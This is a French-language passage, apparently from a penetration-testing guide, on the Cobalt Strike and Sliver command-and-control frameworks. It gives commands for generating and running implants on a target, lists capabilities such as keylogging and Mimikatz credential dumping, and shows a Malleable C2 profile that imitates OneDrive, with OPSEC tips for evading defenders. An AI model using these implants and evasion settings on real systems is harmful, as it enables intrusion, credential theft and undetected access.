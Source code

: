 Cobalt Strike est l'un des frameworks C2 les plus avancés et les plus utilisés dans les tests d'intrusion professionnels. Son architecture client-serveur permet de gérer de nombreux "beacons" (implants) à partir d'une interface centralisée.

Pour déployer un beacon Cobalt Strike :

```
# Génération d'un exécutable beacon
Attacks > Packages > Windows Executable

# Exécution sur la cible
execute-assembly C:\Windows\Temp\beacon.exe
```

Les beacons Cobalt Strike offrent de nombreuses fonctionnalités :

- Communication asynchrone avec des délais configurables
- Pivoting via SOCKS et port forwarding
- Exécution de commandes et de scripts PowerShell
- Injection de DLL et exécution en mémoire
- Capture d'écran et enregistrement de frappe
- Mimikatz intégré pour le dump de credentials

Le profil Malleable C2 permet de personnaliser le comportement réseau des beacons pour imiter des applications légitimes et éviter la détection :

```
# Exemple de configuration Malleable C2 imitant OneDrive
set sleeptime "5000";
set jitter    "20";
set useragent "OneDrive/20.169.0830.0008";

http-get {
    set uri "/onedrive/sync";
    ...
}
```

Du point de vue OPSEC, Cobalt Strike est bien connu des défenseurs et ses signatures réseau sont largement documentées. Pour minimiser les risques de détection, il est essentiel d'utiliser des profils C2 personnalisés, de configurer des délais de communication réalistes (au moins 60 secondes avec jitter), et d'éviter les fonctionnalités bruyantes comme les scans de ports ou les dumps mémoire fréquents.

### Sliver

Sliver est un framework C2 moderne et open-source qui gagne en popularité. Il offre des fonctionnalités similaires à Cobalt Strike avec une empreinte potentiellement moins détectée.

Pour déployer un implant Sliver :

```
# Sur le serveur Sliver
generate --http example.com --save /tmp/implant.exe

# Sur la cible
execute-assembly C:\Windows\Temp\implant.exe
```
